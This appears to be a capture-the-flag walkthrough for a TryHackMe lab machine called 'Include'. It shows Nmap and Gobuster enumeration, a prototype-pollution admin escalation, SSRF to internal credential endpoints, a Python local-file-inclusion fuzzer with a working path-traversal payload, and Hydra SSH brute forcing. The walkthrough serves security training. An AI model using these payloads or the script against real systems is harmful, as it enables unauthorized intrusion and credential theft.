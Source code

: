 ## THM CTF - Include

Flags:

> What is the flag value after logging in to the ```SysMon``` app?

> What is the content of the hidden text file in ```/var/www/html```?

---

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   include.thm
```
***It’s important to note that if we’re unable to navigate the site correctly, we can always use the IP address as a backup.***

Now we can proceed with an ```Nmap``` scan.
```
sudo nmap -sS -T4 include.thm -p-
```
We discovered 8 open ports, and we can list the services they provide.
```
sudo nmap -sS -p22,25,110,143,993,995,4000,50000 -sV -T4 include.thm
```

These are the results:
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
We can start navigating the two site we've found on ```port 4000``` and ```50000```

```Port 4000``` site is a login page, and trying to login with guest credentials provided by the page itself, we are able to access this site.
```
Post target: http://include.thm:4000/signin
Payload:
{
	"name": "guest",
	"password": "guest"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (signin):
Incorrect name or password
```
Port 50000 leads us to a restricted site with an index.php page and a login page that we can immediately test.
```
Post target: http://include.thm:50000/login.php
Payload:
{
	"username": "admin",
	"password": "admin"
}
Cookies:
{
	"Request Cookies": {
		"connect.sid": "s:xxxxxxxxxxxxxxxx",
		"PHPSESSID": "xxxxxxxxx"
	}
}
Invalid response (login.php):
Login credentials incorrect
```
We can proceed with ```Gobuster``` on both sites.
```
gobuster dir -u http://include.thm:4000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```
and
```
gobuster dir -u http://include.thm:50000 -w /usr/share/wordlists/dirb/common.txt -x html,js,txt,php,db,json,log
```

#### Port 4000

Nothing interesting except for ```/signup``` page that return an ```internal server error (code 500)```.

#### Port 50000

Readable folders:
```
/templates/
/uploads/
```
Notable pages:
```
auth.php
api.php
dashboard.php
profile.php
```
For now it's enough.
We can now explore the guest area on ```port 4000```.

#### Guest area on port 4000

Exploring the site, we discover some input area to test.
We try a classic XSS attack:
```
<script>alter('Test')</script>
```
without success.

At this point we can try to elevate our privileges to Admin thanks to ```Prototype Pollution```.
After some attempts, we can finally achieve our objective by adding:
```
Activity type: "isAdmin"
Activity name: true
```
Obtaining some new menu voices.

In the API section we can find some important information.
```
http://127.0.0.1:5000/internal-api
Response:
{
  "secretKey": "superSecretKey123",
  "confidentialInfo": "This is very confidential."
}
```
and
```
http://127.0.0.1:5000/getAllAdmins101099991
Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```
In the Settings section we can find a module that can might be used to further investigate these two internal links.

We can try to insert the URL discovered before.
```
http://127.0.0.1:5000/getAllAdmins101099991
```
We receive the response:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```
Thanks to CyberChef we can convert this text from Base64 and obtain passwords for Admin (review App) and Administrator (SysMon) account.

{"ReviewAppUsername":"admin","ReviewAppPassword":"xxxxxxxxxxx","SysMonAppUsername":"administrator","SysMonAppPassword":"xxxxxxxxxxx"}

Logging in the ```SysMon``` app, we immediately find the first flag.

Now we need to find the second flag hidden in the ```/var/www/html``` folder.

We try enumerate some of the ```Gobuster``` findings.
After some attempts ```profile.php``` is the only one that seems promising.
In the ```SysMon``` page, there is a link to an image.
```
profile.php?img=profile.png
```
Maybe we can try some ```LFI (Local file inclusion) poisoning```.

```profile.png``` is a file in the folder uploads (discovered previously thanks to the ```Gobuster``` analysis).

After some unsuccessful manual attempts, we should try using long lists and some ```Python``` code.
```
cp /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt .
```
We can simplify the lists because we're looking only for /etc/passwd file.
```
cat LFI-Jhaddix.txt | grep -e 'passwd' > LFI-Jhaddix_short.txt
```
With this list we can execute the ```Python``` script.

<details>
<summary><h3>THM_Include_LFI_Poisoning.py</h3></summary>

```python
import requests

# Change these variables to suits your needs
# Set the target and port

target_ip = '10.10.47.92'
target_port = '50000'

# Set the cookies obtained after a successful login

connect_sid = 's%3AZzTlaCDVBh3QI1YW4p7R8v5ntvMN6ePt.IDg3kva70jRW%2BXcafps0%2BFSY0eXu4p1fN3rp5F6Dzgc'
phpsessid = 'prd7v21kdgn5uojfkn7tmbd1mu'

# Change the path and name of the list to be used

lfi_file = '/home/kali/Downloads/THM_Include/LFI-Jhaddix_short.txt'

# Do not touch these variables

target_uri = f'http://{target_ip}:{target_port}/profile.php?img='
cookies = {
    'connect.sid' : connect_sid,
    'PHPSESSID' : phpsessid

}

# Set-up the session using cookies 

session = requests.Session()
session.cookies.update(cookies)

# Read the file

try:
    with open(lfi_file, 'r') as file:
        for item in file:

            # Generate the request with a get method using list file payload

            request = session.get(f'{target_uri}{item.strip()}')

            # If the word 'root' (always found in the /etc/passwd file) is in the response, print the results and exit

            if 'root' in request.text:
                print(f'{target_uri}{item}')
                print(request.text)
                break

except FileNotFoundError:
    print(f"File not found: {lfi_file}")

print('End of file')

```

  
</details>

We finally find the correct answer:
```
http://include.thm:50000/profile.php?img=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
```

We are able to find two interesting users:
```
joshua
charles
```
Trying to connect to these tow account via SSH and using the super secret password found earlier,
```
ssh joshua@include.thm
password: superSecretKey123
```
We attempted the same approach with ```charles```, but unfortunately, we were unsuccessful.

Approaching the problem from a brute-force point-of-view, we achieve success in finding an entry point.
```
hydra -l joshua -P /usr/share/wordlists/rockyou.txt include.thm ssh
```
Now that we have the password we can login via ```SSH``` to the target machine.

Navigating to the target folder, we find the second flag.
